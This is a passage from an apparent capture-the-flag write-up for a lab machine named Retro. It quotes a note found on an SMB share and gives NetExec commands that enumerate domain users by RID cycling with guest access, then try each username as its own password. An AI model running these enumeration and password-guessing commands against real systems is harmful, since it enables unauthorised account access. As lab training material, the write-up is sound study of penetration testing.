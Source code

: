 There is only one file present named important.txt on the share, downloading it and opening it.

It says.

```text
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

Now since we have guest access we can also enumerate the users on the box using RID-Cycling.

```bash
nxc smb retro.vl -u '.' -p '' --rid-brute
```

![image.png](/assets/images/Retro_VL/image%206.png)

Saving these usernames to a usernames.txt file.

We dont have any valid credentials so we just try bruteforce the usernames with the usernames only to see we get a valid hit.

```bash
nxc smb retro.vl -u usernames.txt -p usernames.txt --no-bruteforce --continue-on-success
```
